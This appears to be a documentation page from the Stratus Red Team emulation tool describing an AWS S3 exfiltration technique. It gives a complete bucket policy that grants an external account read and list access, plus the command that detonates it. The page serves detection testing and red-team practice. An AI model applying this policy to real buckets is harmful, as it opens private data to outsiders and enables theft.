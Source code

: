 ```yaml
---
title: Backdoor an S3 Bucket via its Bucket Policy
---
```


# Backdoor an S3 Bucket via its Bucket Policy


 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: AWS

## MITRE ATT&CK Tactics


- Exfiltration

## Description


Exfiltrates data from an S3 bucket by backdooring its Bucket Policy to allow access from an external, fictitious AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: 

- Create an S3 bucket.

<span style="font-variant: small-caps;">Detonation</span>: 

- Backdoor the S3 Bucket Policy by setting the following Bucket Policy:

<pre>
<code>
{
  "Version":"2012-10-17",
  "Statement":[
    {
      "Effect": "Allow",
      "Principal": {
        "AWS":"arn:aws:iam::193672423079:root"
      },
      "Action": [
        "s3:GetObject",
        "s3:GetBucketLocation",
        "s3:ListBucket"
      ],
      "Resource": [
        "arn:aws:s3:::%s/*",
        "arn:aws:s3:::%s"
      ]
    }
  ]
}
</code>
</pre>


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.exfiltration.backdoor-s3-bucket-policy
```
